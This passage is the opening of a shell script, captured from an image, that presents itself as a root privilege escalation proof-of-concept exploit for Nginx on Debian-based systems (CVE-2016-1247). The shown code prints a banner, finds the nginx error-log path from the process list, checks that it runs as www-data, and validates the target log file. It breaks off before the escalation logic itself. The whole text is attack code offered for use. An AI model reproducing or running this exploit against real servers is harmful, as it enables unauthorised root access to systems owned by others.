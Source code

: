     #intro 

    cat <<_eascii_
     _______________________________
    < Is your server (N)jinxed ? ;o >
     -------------------------------
               \ 
                \          __---__
                        _-       /--______
                   __--( /     \ )XXXXXXXXXXX\v.  
                 .-XXX(   O   O  )XXXXXXXXXXXXXXX- 
                /XXX(       U     )        XXXXXXX\ 
              /XXXXX(              )--_  XXXXXXXXXXX\ 
             /XXXXX/ (      O     )   XXXXXX   \XXXXX\ 
             XXXXX/   /            XXXXXX   \__ \XXXXX
             XXXXXX__/          XXXXXX         \__---->
     ---___  XXX__/          XXXXXX      \__         /
       \-  --__/   ___/\  XXXXXX            /  ___--/=
        \-\    ___/    XXXXXX              '--- XXXXXX
           \-\/XXX\ XXXXXX                      /XXXXX
             \XXXXXXXXX   \                    /XXXXX/
              \XXXXXX      >                 _/XXXXX/
                \XXXXX--__/              __-- XXXX/
                 -XXXXXXXX---------------  XXXXXX-
                    \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                      ""VXXXXXXXXXXXXXXXXXXV""
    _eascii_

    echo -e "\033[94m \nNginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247) \nnginxed-root.sh (ver. 1.0)\n"
    echo -e "Discovered and coded by: \n\nDawid Golunski \nhttps://legalhackers.com \033[0m"

    # Args
    if [ $# -lt 1 ]; then
        echo -e "\n[!] Exploit usage: \n\n$0 path_to_error.log \n"
        echo -e "It seems that this server uses: `ps aux | grep nginx | awk -F'log-error=' '{ print $2 }' | cut -d' ' -f1 | grep '/'`\n"
        exit 3
    fi

    # Priv check

    echo -e "\n[+] Starting the exploit as: \n\033[94m`id`\033[0m"
    id | grep -q www-data
    if [ $? -ne 0 ]; then
        echo -e "\n[!] You need to execute the exploit as www-data user! Exiting.\n"
        exit 3
    fi

    # Set target paths
    ERRORLOG="$1"
    if [ ! -f $ERRORLOG ]; then
        echo -e "\n[!] The specified Nginx error log ($ERRORLOG) doesn't exist. Try again.\n"
        exit 3
    fi
